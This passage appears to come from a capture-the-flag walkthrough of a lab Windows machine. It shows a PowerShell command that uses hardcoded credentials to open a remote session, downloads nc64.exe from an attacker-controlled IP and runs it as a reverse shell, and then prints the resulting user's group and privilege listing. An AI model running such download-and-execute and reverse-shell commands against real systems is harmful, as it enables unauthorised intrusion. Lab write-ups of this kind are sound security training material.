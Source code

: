 Or we could do it like this with two lines in icm scriptblock.

```powershell
$username = "batman";$password = "Zx^#QZX+T!123";$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;$Session = New-PSSession -Credential $Credential

icm -Session $Session -ScriptBlock { iwr http://10.10.14.20:8000/nc64.exe -OutFile C:\Users\Batman\Desktop\nc64.exe; C:\Users\Batman\Desktop\nc64.exe -vn 10.10.14.20 443 -e cmd.exe }
```

Now we have a shell as Batman, he is also in the remote management users and administrator groups on this box. His privileges look a little light though.
```cmd
PS C:\Users\Batman> whoami /all
whoami /all

USER INFORMATION
----------------

User Name     SID                                          
============= =============================================
arkham\batman S-1-5-21-3805402536-769430840-2640722577-1000


GROUP INFORMATION
-----------------

Group Name                                                    Type             SID          Attributes                                        
============================================================= ================ ============ ==================================================
Everyone                                                      Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account and member of Administrators group Well-known group S-1-5-114    Group used for deny only                          
BUILTIN\Administrators                                        Alias            S-1-5-32-544 Group used for deny only                          
BUILTIN\Remote Management Users                               Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                                                 Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                                          Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users                              Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization                                Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account                                    Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication                              Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level                        Label            S-1-16-8192                                                    


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State  
============================= ============================== =======
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```